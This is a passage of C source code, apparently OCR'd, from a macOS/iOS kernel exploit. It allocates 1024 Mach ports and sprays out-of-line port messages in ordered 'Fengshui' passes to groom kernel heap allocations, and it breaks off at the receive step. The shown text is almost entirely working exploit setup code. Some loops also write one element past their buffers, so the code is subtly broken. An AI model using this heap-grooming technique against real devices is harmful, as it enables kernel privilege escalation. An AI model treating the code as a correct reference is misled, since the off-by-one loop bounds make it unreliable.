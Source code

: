 	// Part 1. Create OOL Ports
	for(current_port_num = 0; current_port_num < PORT_COUNT; current_port_num++){ // Alloc 1024 Ports
		mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &ool_ports[current_port_num]); // Alloc Port
		mach_port_insert_right(mach_task_self(), ool_ports[current_port_num], ool_ports[current_port_num], MACH_MSG_TYPE_MAKE_SEND); // MACH_MSG_TYPE_MAKE_SEND Right Set.
	}

	// Part 2. Create Message Buffer (Spray)
	mach_port_t* use_ports = calloc(1024, sizeof(mach_port_t));

	for(int i = 0; i <= 1024; i++){
		use_ports[i] = MACH_PORT_DEAD;
	}

	/* Set MSG HEADER */
	send_msg.msg_head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
	send_msg.msg_head.msgh_size = sizeof(struct ool_send_msg) - 16;
	send_msg.msg_head.msgh_remote_port = MACH_PORT_NULL;
	send_msg.msg_head.msgh_local_port = MACH_PORT_NULL; // NULL SEND
	send_msg.msg_head.msgh_reserved = 0x00;
	send_msg.msg_head.msgh_id = 0x00;
	
	/* SET MSG BODY */
	send_msg.msg_body.msgh_descriptor_count = 1;
	
	/* SET MSG OOL PORT DESCRIPTOR */
	for(int i = 0; i<=16; i++){ // appropriate ipc-send size  
		send_msg.msg_ool_ports[i].address = use_ports;
		send_msg.msg_ool_ports[i].count = 32; // kalloc 0x100 (256)
		send_msg.msg_ool_ports[i].deallocate = 0x00;
		send_msg.msg_ool_ports[i].copy = MACH_MSG_PHYSICAL_COPY;
		send_msg.msg_ool_ports[i].disposition = MACH_MSG_TYPE_MAKE_SEND;
		send_msg.msg_ool_ports[i].type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
	}

	// Part 3. Message Fengshui
	/* SEND MSG */
	for(current_port_num = 0; current_port_num < USE_PORT_START; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	for(current_port_num = USE_PORT_END; current_port_num < PORT_COUNT; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_END; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}

	/* RECV MSG */